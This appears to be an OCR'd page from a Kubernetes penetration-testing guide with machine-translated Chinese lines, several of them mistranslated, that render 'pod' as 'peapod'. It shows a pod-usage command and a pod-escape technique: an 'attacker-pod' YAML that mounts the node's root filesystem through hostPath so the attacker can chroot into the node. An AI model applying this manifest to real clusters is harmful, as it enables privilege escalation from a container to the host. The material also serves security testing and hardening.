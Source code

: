 ## **Get Pods consumptions**

{% tabs %}
{% tab title="kubectl" %}
```
k top pod --all-namespaces
```
{% endtab %}
{% endtabs %}

## Escaping from the pod

##逃离豆荚

If you are able to create new pods you might be able to escape from them to the node. In order to do so you need to create a new pod using a yaml file, switch to the created pod and then chroot into the node's system. You can use already existing pods as reference for the yaml file since they display existing images and pathes.

如果您能够创建新的豆荚，则可以从它们逃脱到节点。 为了这样做，您需要使用YAML文件创建一个新的POD，然后切换到创建的POD，然后将其切入节点的系统。 您可以使用现有的POD作为YAML文件的参考，因为它们显示了现有的图像和路径。

```bash
kubectl get pod <name> [-n <namespace>] -o yaml
```

Then you create your attack.yaml file

然后您创建攻击.yaml文件

```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: ubuntu
    imagePullPolicy: Always
    name: attacker-pod
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```

[original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)
